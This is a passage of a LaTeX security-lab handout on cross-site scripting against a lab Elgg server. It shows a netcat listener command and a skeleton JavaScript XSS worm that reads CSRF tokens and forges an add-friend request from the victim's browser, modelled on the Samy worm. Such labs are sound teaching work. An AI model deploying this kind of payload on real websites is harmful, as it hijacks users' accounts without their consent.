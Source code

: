\begin{lstlisting}
$ nc -lknv 5555 
\end{lstlisting}

\noindent The \texttt{-l} option is used to specify that nc should listen for an incoming
connection rather than initiate a connection to a remote host. The \texttt{-nv} option is used to
have \texttt{nc} give more verbose output. The \texttt{-k} option means when a connection
is completed, listen for another one.


\subsection{Task 4: Becoming the Victim's Friend}

In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005
(i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user
that visits Samy's page. This worm does not self-propagate; in  task 6, we will make it
self-propagating.

In this task, we need to write a malicious JavaScript program that forges HTTP requests
directly from the victim's browser, without the intervention of the attacker.  The objective of
the attack is to add Samy as a friend to the victim. We have already created a user called Samy
on the {\tt Elgg} server (the user name is {\tt samy}).


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's \texttt{HTTP} inspection tool 
can help us get the information. It can display the contents of any HTTP request message sent 
from the browser.  From the contents, we can identify all
the parameters in the request. Section~\ref{xss:sec:guidelines}
provides guidelines on how to use the tool.


Once we understand what the add-friend HTTP request look like, 
we can write a JavaScript program to send out the same HTTP request. We provide a skeleton
JavaScript code that aids in completing the task.

\begin{lstlisting}
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          (*@ \ding{192} @*)
  var token="&__elgg_token="+elgg.security.token.__elgg_token; (*@ \ding{193} @*)

  //Construct the HTTP request to add Samy as a friend.
  var sendurl=...;  //FILL IN

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send();
} 
</script>
\end{lstlisting}


